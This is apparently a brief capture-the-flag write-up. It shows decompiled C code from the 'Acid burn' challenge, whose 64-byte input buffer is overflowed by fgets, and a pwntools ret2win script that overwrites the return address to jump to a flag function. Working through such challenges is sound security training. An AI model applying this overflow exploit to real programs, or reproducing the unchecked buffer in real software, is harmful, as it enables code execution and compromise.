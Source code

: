 +++
date = '2025-04-28T12:00:00+02:00'
draft = false 
title = 'Acid burn'
tags = ['pwn']
+++

Here is the decompiled code for the challenge.
```c
int main(void)
{
  int iVar1;
  char input [64];
  
  printf("What is the password?\n?: ");
  fflush(stdout);
  fgets(input,0x80,stdin);
  iVar1 = strcmp(input,"password\n");
  if (iVar1 != 0) {
    puts("incorrect password");
    fflush(stdout);
  }
  return 0;
}
```

There is a pretty large buffer overflow on the `input` variable and there also conveniently is a function called `flag` that displays the flag (and of course all the protections are disabled).  
This is a classic ret2win scenario where we have to overwrite the return pointer to jump to the `flag` function.  
A small python script using pwntools should do the job.
```python
io = start()

payload = flat(
        b'A'*(64+8),
        pack(elf.symbols.flag))

write("payload", payload)
io.sendlineafter(b'?: ', payload)
io.interactive()
```

I didn't save the flag but this works and solves the challenge.
